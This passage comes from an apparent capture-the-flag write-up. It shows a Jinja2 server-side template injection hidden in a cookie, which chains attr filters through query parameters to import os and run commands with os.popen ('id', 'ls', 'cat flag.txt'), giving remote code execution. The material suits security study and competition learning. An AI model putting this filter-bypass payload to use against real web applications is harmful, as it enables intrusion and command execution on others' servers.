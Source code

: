 **Now we can invoke `os` module's methods!!**

**To execute OS command, we can use the `popen()` method, and `read()` it:**
```http
GET /?service=adminpage&a=application&b=__globals__&c=__getitem__&d=__builtins__&e=__getitem__&f=__import__&g=os HTTP/1.1
Cookie: user={% set os = request|attr(request.args.a)|attr(request.args.b)|attr(request.args.c)(request.args.d)|attr(request.args.e)(request.args.f)(request.args.g) %} {{os.popen("id").read()}}
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Grey-Cat-The-Flag-2023-Qualifiers/images/Pasted%20image%2020230521130350.png)

Yes!! We got RCE!!

**Let's read the flag:**
```http
GET /?service=adminpage&a=application&b=__globals__&c=__getitem__&d=__builtins__&e=__getitem__&f=__import__&g=os HTTP/1.1
Cookie: user={% set os = request|attr(request.args.a)|attr(request.args.b)|attr(request.args.c)(request.args.d)|attr(request.args.e)(request.args.f)(request.args.g) %} {{os.popen("ls").read()}}

GET /?service=adminpage&a=application&b=__globals__&c=__getitem__&d=__builtins__&e=__getitem__&f=__import__&g=os HTTP/1.1
Cookie: user={% set os = request|attr(request.args.a)|attr(request.args.b)|attr(request.args.c)(request.args.d)|attr(request.args.e)(request.args.f)(request.args.g) %} {{os.popen("cat flag.txt").read()}}
```
